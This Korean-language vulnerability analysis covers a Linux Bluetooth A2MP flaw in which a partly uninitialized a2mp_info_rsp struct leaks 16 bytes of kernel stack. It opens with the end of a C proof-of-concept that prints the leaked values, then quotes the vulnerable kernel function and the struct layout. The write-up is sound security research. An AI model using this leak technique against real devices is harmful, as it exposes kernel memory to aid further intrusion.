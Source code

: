 ```c++
        uint64_t leak2 = *(uint64_t *)(buf + 21);
        uint16_t leak3 = *(uint64_t *)(buf + 29);
        printf("[+] Leaked: %lx, %lx, %x\n", leak1, leak2, leak3);
        break;
      }
    }
  }

  close(l2_sock);
  hci_close_dev(hci_socket);

  return 0;
}
```

## Analysis #1 핵심
본 취약점은 `A2MP_GETINFO_REQ` 요청에서 잘못된 hci 장치 ID 또는 `HCI_AMP` 유형이 아닌 ID를 지정할 때 발생한다. 응답으로 `a2mp_info_rsp` 구조체를 송신하는데, 구조체가 완전히 초기화되지 않은 상태로 응답하게 되어 스택 데이터가 드러나게 된다.

```c++
static int a2mp_getinfo_req(struct amp_mgr *mgr, struct sk_buff *skb,
			    struct a2mp_cmd *hdr)
{
	struct a2mp_info_req *req  = (void *) skb->data;
	struct hci_dev *hdev;
	struct hci_request hreq;
	int err = 0;

	if (le16_to_cpu(hdr->len) < sizeof(*req))
		return -EINVAL;

	BT_DBG("id %d", req->id);

	hdev = hci_dev_get(req->id);
	if (!hdev || hdev->dev_type != HCI_AMP) {
		struct a2mp_info_rsp rsp;

		rsp.id = req->id;
		rsp.status = A2MP_STATUS_INVALID_CTRL_ID;

		// rsp의 모든 멤버가 초기화되지 않음!

		a2mp_send(mgr, A2MP_GETINFO_RSP, hdr->ident, sizeof(rsp),
			  &rsp);

		goto done;
	}
	...
}
```
실제로 `a2mp_info_rsp` 구조체는 다음과 같이 구성되어있다.
```c++
struct a2mp_info_rsp {
	__u8	id;
	__u8	status;
	__le32	total_bw;
	__le32	max_bw;
	__le32	min_latency;
	__le16	pal_cap;
	__le16	assoc_size;
} __packed;
```
앞서 설명했듯이 `a2mp_info_rsp`는 스택에 할당되고나서 처음 2바이트만 초기화되므로 나머지 16바이트에는 스택 프레임에 있던 데이터가 노출된다. `a2mp_send_getinfo_rsp()` 함수에도 동일한 취약점이 존재한다.